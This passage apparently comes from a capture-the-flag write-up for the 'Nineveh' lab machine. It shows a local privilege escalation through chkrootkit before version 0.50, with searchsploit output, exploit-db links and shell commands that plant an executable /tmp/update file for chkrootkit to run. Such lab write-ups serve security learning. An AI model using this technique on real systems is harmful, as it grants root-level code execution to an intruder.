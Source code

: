 ```bash
searchsploit chkrootkit
```

![ss2](./nineveh/ss2.png)

Nice! These look juicy:

- https://www.exploit-db.com/exploits/38775
- https://www.exploit-db.com/exploits/33899

Both describe that creating a file at `/tmp/update` will be executed by `chkrootkit` before version 0.50. Since checking the verison is not possible with the binary's permissions, make a quick test:

```bash
echo '#!/bin/sh' > /tmp/update
echo 'id > /tmp/test.bubba' >> /tmp/update
chmod +x /tmp/update
```

After waiting for a minute, an interesting file appears!

![user7](./nineveh/user7.png)

